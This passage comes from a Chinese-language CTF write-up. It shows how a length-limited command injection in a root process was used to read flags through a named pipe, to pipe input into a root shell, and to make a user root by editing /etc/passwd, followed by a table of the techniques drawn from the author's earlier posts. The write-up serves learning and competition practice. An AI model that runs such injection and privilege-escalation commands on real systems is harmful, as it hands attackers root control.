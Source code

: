 然后尝试在目标文件中构造如下payload并重新触发此root进程启动：

```c
';reboot #
```

启动进程后，电脑直接黑屏重启，成功命令注入。根据注入点判断条件，只有当payload在15个字节以内时，才会被送到system中执行，所以比较费劲的就是写shell命令的利用了。这个有长度制的命令注入的提权利用，是**L1n3师傅**和**L3H_Sec的navie师傅**共同完成的，和我没啥关系，感谢两位。利用方式比较Web，很类似hitcon当年那个操作，分步完成：

1. flag复制到根
2. 将flag改名为f
3. 建立管道用于接收flag
4. 把flag输出到管道

```python
';cp /r*/f* / #
';mv /*1 /f #
';mkfifo /q #
';cat /f>/q #
```

然后在用户端(user1)查看flag即可：cat /q

![image](https://xuanxuanblingbling.github.io/assets/pic/pk/flag1.png)

当前的这个root交互比较费劲，所以可以使用如下payload建立管道来交互shell（无回显）：

```c
';cat /q|sh #
```

进一步可以把user1直接变成root用户：

```c
echo "sed -i 's/1001/0/g' /etc/passwd" > /q
```

flag2在user2的保险箱里，直接使用user2登录应该就可以直接看到，所以使用root重置user2的密码，之后切换到user2直接查看box中的文件即可：


![image](https://xuanxuanblingbling.github.io/assets/pic/pk/flag2.png)


## 思路

两天打下来，感觉PKS赛题好像老天给我的小节测试，真的就像是给我准备的一样，每个步骤都很顺，这两年鼓捣的东西挺多都用上了，而且思路清晰：

| 手段、知识                               | 来自                                                         |
| -------------------------------------- | ------------------------------------------------------------ |
| 通过读写`/proc/pid/mem`修改进程内存    | [条件竞争学习 之  DirtyCow分析](https://xuanxuanblingbling.github.io/ctf/pwn/2019/11/18/race/)、[从树莓派的wiringPi库分析Linux对GPIO的控制原理](https://xuanxuanblingbling.github.io/iot/2020/07/01/gpio/)，原理是linux哲学：一切皆文件。 |
| 使用`dd`按照偏移读写文件               | [树莓派3B+刷openwrt安装mitmproxy折腾记录](https://xuanxuanblingbling.github.io/iot/2020/01/06/mitmproxy/)、重打包固件的修改目标文件系统。 |
| 在目标进程的中注入恶意代码并执行         | [StarCTF 2021 RISC-V Pwn Favourite  Architecture](https://xuanxuanblingbling.github.io/ctf/pwn/2021/01/22/riscv/)、[IoT安全研究视角的交叉编译](https://xuanxuanblingbling.github.io/ctf/tools/2021/02/16/cross/)、《程序员的自我修养》|
| 使用mprotect更改内存段的权限           | [StarCTF 2021 RISC-V Pwn Favourite  Architecture](https://xuanxuanblingbling.github.io/ctf/pwn/2021/01/22/riscv/) |
| 使用python来执行恶意native代码         | [Getshell载荷：payload的量级](https://xuanxuanblingbling.github.io/ctf/pwn/2020/12/13/getshell4/)、[HITCTF 2020 三道 Pwn: lucky](https://xuanxuanblingbling.github.io/ctf/pwn/2020/12/09/hitctfpwn/) |
| sprintf+system命令注入的漏洞模式       | 平日的IoT漏洞挖掘、[HWS 2021 入营赛 Pwn/固件/内核:  httpd](https://xuanxuanblingbling.github.io/ctf/pwn/2021/02/01/hws/) |
| 使用root进程的漏洞进行提权                 | [小路](https://wrlus.com/)有一次给我讲的某路由器提权方法     |
| 命令注入的入口可以是某些配置文件的内容    | 淼哥之前审出来的使用TF卡以及adb回包Getshell某设备    |
| 内核管理进程的PCB结构体的样子           | 2020年暑期参加的华为鸿蒙开源演练：[openharmony](https://gitee.com/openharmony)                                    |
| 使用gdb劫持python控制流               | 平日Pwn题的调试                                              |
| 使用空格、mount在文件系统中制造障眼法    | IoT设备上只读文件系统的修改、恶意混淆的障眼法域名、魔术的本质就是障眼法、《线上幽灵》    |
